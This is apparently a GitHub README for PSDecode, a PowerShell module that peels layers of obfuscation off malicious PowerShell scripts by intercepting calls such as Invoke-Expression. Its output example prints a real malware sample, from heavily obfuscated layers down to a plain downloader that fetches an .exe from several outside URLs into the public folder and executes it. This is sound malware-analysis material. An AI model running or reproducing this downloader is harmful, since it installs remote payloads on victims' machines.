 # PSDecode
This is a PowerShell script for deobfuscating other encoded PowerShell scripts. Often, malicious PowerShell scripts have several layers of encodings  (Replace, Base64Decode, etc...) that, once decoded, are executed via a call to Invoke-Expression (IEX, &, .), Invoke-Command, etc... This script employs a technique called method overriding that enables us to essentially intercept calls to functions that I have accounted for within this script and print out the arguments being passed to it (a.k.a what the script was trying to execute).

** Important Note: Only run this script within an isolated sandbox. If the encoded powershell attempts to execute a function which I have not accounted for, IT WILL EXECUTE **

# To Use
1. Copy PSDecode.psm1 into $PSHome\Modules\
2. Open a new instance of PowerShell
3. Option #1 [Pass encoded PowerShell via File]:
<pre> > PSDecode .\encoded_ps.ps1 </pre>
4. Option #2 [Pass encoded PowerShell via PIPE]:
<pre> > Get-Content .\encoded_ps.ps1 | PSDecode </pre>

# Output Example
```PowerShell
############################## Layer 1 ##############################
&( $vERBOSEprefeRENCE.TOstRInG()[1,3]+'x'-jOiN'')(('. ((VAriAble rAb*m'+'DR*rAb)'+'.namE[3,11,'+'2]-joiNrAbrAb) ( (rAb ((8mrAb+rAb6o4Vfranc r'+'Ab+rAb8m6+8m6=rAb+rAb new-8m6'+'+8m6obj8m6+8m6ec
rAb+rAbt SysrAb+rAbt8m6+8m6em.Ne'+'t'+'.We8m6rAb+rAb+8m6bCli8m6+8m6enrAb+rAbt8rAb+rAbm6+8m6;8m6+8m6o4Vnsa8m6+8m6dasd 8m6+'+'8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'rAb+rAb8mrAb+rAb6random;
o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6'+'-8m6+8m6soft.pl/w8m6+8m6ef3rAb+rAb8m6+8m64668m6+8m6'+'48m6+8rAb+rAbm658m6+8m6,htt8m6+8mrAb+rAb6p8m6+8m6:rAb+rAb8m6+8
m6/'+'8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/wrAb+rAb8m6'+'+8m6efrAb+rAb348m6+8m666458m'+'6+8m6,htt8m6+8mrAb+rAb6prAb+rAb://8m6+'+'8m6truhlarstvi-be8m6+8m6'+'zd8m6+8m'+'6eka8m6+
8rAb+rA'+'bm6.c8m6+8rAb+rAbm6z/wef346645,h8m6+8m6ttrAb+rAb8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8mrAb+rAb6+8m6lit(H8m6+8m6a6,H8rAb+rAbm6+8m6a6'+')8m6
+8rAb+r'+'Abm6;8m6+8m6o4V8m6+8m6kara8m6+8m6pas = o8m6+8m64'+'Vns8m6+8m6adasd.next(18m6+8m6,rAb+rA'+'b 38m6+8m6rAb+rAb43248m6+8m658m6+8mrAb+rAb6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6rAb+r
Ab+8m6 Ha61U8m6+8m6nH'+'8m6'+'+8m6a6 +rAb+rAb o48m6+8m6Vkar'+'8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha'+'8m6+8m668m6+8m6;8m6rAb+rAb+8m6for8m6+8m6ea'+'c8m6+8m6h(o8m6+8m64VrAb+rAbab8m6+8m6c 
in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){'+'8m6+8m6try{o48m6+8m6'+'V8m6+8m6f8m6+8m6r8m6'+'+8m6a8m6+8m6n8m'+'6r'+'Ab+rAb+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8rAb+rAbm6c8m6+8m6.TrAb+rAboSt8m6+8m6r8m
6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+'+'8m6br8m6+8m6eak;}catch8m6'+'+8m6{wrrAb'+'+rAb8m6+'+'8m6i8m6+8m6te8m6+8m6-host'+' rAb+rAbo48rAb+rAbm6'+'+8m6V
_.Ex8m6+8m6c'+'e8m6+8m6pt8'+'m6+8rAb+rAbm6ion8m6'+'+8m6.MrAb+rAb8m6+8m6es8m6+8mrAb+rAb6rAb+'+'rAbsa8m6+8m6g8m6+8m'+'6e;}}8'+'m6'+')-CREpLACE 8m61Un8m6'+','+'[chaR]92 -CrA'+'b'+'+rAbREprAb+rAbL
ACE([chaR]111+[chaR]52+[chaR]86)'+',[cha'+'R]36 -CR'+'EpLACE ([chrAb+rAbaR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe rAb+rAb8m6*MDR*8m6).Name[3,11,2]'+'-JoIn8m68m6)rAb).rEpLA'+'Ce(([
'+'c'+'har]5'+'6+[char]109+[c'+'har]54),[StRiNG][char]39).rE'+'pLAC'+'e(rAbf5BrAb,[StRiNG][char]124) ) ').rEPLAcE('rAb',[StRING][ChAr]39) )


############################## Layer 2 ##############################
. ((VAriAble '*mDR*').namE[3,11,2]-joiN'') ( (' ((8m'+'6o4Vfranc '+'8m6+8m6='+' new-8m6+8m6obj8m6+8m6ec'+'t Sys'+'t8m6+8m6em.Net.We8m6'+'+8m6bCli8m6+8m6en'+'t8'+'m6+8m6;8m6+8m6o4Vnsa8m6+8m6das
d 8m6+8m6= n8m6+8m6e8m6+8m6w-8m6+8m6object 8m6+'+'8m'+'6random;o4Vb8m6+8m6c8m6+8m6d = Ha6ht8m6+8m6t8m6+8m6p:8m6+8m6//s8m6+8m6mart8m6+8m6-8m6+8m6soft.pl/w8m6+8m6ef3'+'8m6+8m64668m6+8m648m6+8'+'
m658m6+8m6,htt8m6+8m'+'6p8m6+8m6:'+'8m6+8m6/8m6+8m6/chimach8m6+8m6i8m6+8m6n8m6+8m6eno8m6+8m6w.com/w'+'8m6+8m6ef'+'348m6+8m666458m6+8m6,htt8m6+8m'+'6p'+'://8m6+8m6truhlarstvi-be8m6+8m6zd8m6+8m6
eka8m6+8'+'m6.c8m6+8'+'m6z/wef346645,h8m6+8m6tt'+'8m6+8m6p8m6+8m6://8m6+8m6er8m6+8m6icajoy.co8m6+8m6m/8m6+8m6wef3468m6+8m6645Ha6.Sp8m'+'6+8m6lit(H8m6+8m6a6,H8'+'m6+8m6a6)8m6+8'+'m6;8m6+8m6o4V8
m6+8m6kara8m6+8m6pas = o8m6+8m64Vns8m6+8m6adasd.next(18m6+8m6,'+' 38m6+8m6'+'43248m6+8m658m6+8m'+'6);o4Vhuas = o4Ve8m6+8m6nv:p8m6+8m6ublic +8m6'+'+8m6 Ha61U8m6+8m6nH8m6+8m6a6 +'+' o48m6+8m6Vka
r8m6+8m6apas 8m6+8m6+ Ha6.e8m6+8m6xe8m6+8m6Ha8m6+8m668m6+8m6;8m6'+'+8m6for8m6+8m6eac8m6+8m6h(o8m6+8m64V'+'ab8m6+8m6c in 8m6+8m6o48m6+8m6Vb8m6+8m6c8m6+8m6d){8m6+8m6try{o48m6+8m6V8m6+8m6f8m6+8m6
r8m6+8m6a8m6+8m6n8m6'+'+8m6c.Downlo8m6+8m6adFile(o4Vab8m6+8'+'m6c8m6+8m6.T'+'oSt8m6+8m6r8m6+8m6in8m6+8m6g(8m6+8m6)8m6+8m6, o48m6+8m6Vhua8m6+8m6s);Invoke-Item(o4Vhuas);8m6+8m6br8m6+8m6eak;}catc
h8m6+8m6{wr'+'8m6+8m6i8m6+8m6te8m6+8m6-host '+'o48'+'m6+8m6V_.Ex8m6+8m6ce8m6+8m6pt8m6+8'+'m6ion8m6+8m6.M'+'8m6+8m6es8m6+8m'+'6'+'sa8m6+8m6g8m6+8m6e;}}8m6)-CREpLACE 8m61Un8m6,[chaR]92 -C'+'REp'
+'LACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([ch'+'aR]72+[chaR]97+[chaR]54),[chaR]39) f5B &((GeT-VaRIAbLe '+'8m6*MDR*8m6).Name[3,11,2]-JoIn8m68m6)').rEpLACe(([char]56+[char]109+[cha
r]54),[StRiNG][char]39).rEpLACe('f5B',[StRiNG][char]124) ) 


############################## Layer 3 ##############################
 (('o4Vfranc '+'= new-'+'obj'+'ect Syst'+'em.Net.We'+'bCli'+'ent'+';'+'o4Vnsa'+'dasd '+'= n'+'e'+'w-'+'object '+'random;o4Vb'+'c'+'d = Ha6ht'+'t'+'p:'+'//s'+'mart'+'-'+'soft.pl/w'+'ef3'+'466'+
'4'+'5'+',htt'+'p'+':'+'/'+'/chimach'+'i'+'n'+'eno'+'w.com/w'+'ef34'+'6645'+',htt'+'p://'+'truhlarstvi-be'+'zd'+'eka'+'.c'+'z/wef346645,h'+'tt'+'p'+'://'+'er'+'icajoy.co'+'m/'+'wef346'+'645Ha6
.Sp'+'lit(H'+'a6,H'+'a6)'+';'+'o4V'+'kara'+'pas = o'+'4Vns'+'adasd.next(1'+', 3'+'4324'+'5'+');o4Vhuas = o4Ve'+'nv:p'+'ublic +'+' Ha61U'+'nH'+'a6 + o4'+'Vkar'+'apas '+'+ Ha6.e'+'xe'+'Ha'+'6'+'
;'+'for'+'eac'+'h(o'+'4Vab'+'c in '+'o4'+'Vb'+'c'+'d){'+'try{o4'+'V'+'f'+'r'+'a'+'n'+'c.Downlo'+'adFile(o4Vab'+'c'+'.ToSt'+'r'+'in'+'g('+')'+', o4'+'Vhua'+'s);Invoke-Item(o4Vhuas);'+'br'+'eak;
}catch'+'{wr'+'i'+'te'+'-host o4'+'V_.Ex'+'ce'+'pt'+'ion'+'.M'+'es'+'sa'+'g'+'e;}}')-CREpLACE '1Un',[chaR]92 -CREpLACE([chaR]111+[chaR]52+[chaR]86),[chaR]36 -CREpLACE ([chaR]72+[chaR]97+[chaR]
54),[chaR]39) | &((GeT-VaRIAbLe '*MDR*').Name[3,11,2]-JoIn'')


############################## Layer 4 ##############################
$franc = new-object System.Net.WebClient;$nsadasd = new-object random;$bcd = 'http://smart-soft.pl/wef346645,http://chimachinenow.com/wef346645,http://truhlarstvi-bezdeka.cz/wef346645,http://e
ricajoy.com/wef346645'.Split(',');$karapas = $nsadasd.next(1, 343245);$huas = $env:public + '\' + $karapas + '.exe';foreach($abc in $bcd){try{$franc.DownloadFile($abc.ToString(), $huas);Invoke
-Item($huas);break;}catch{write-host $_.Exception.Message;}}


############################## Layer 5 ##############################
C:\Users\Public\190597.exe
```
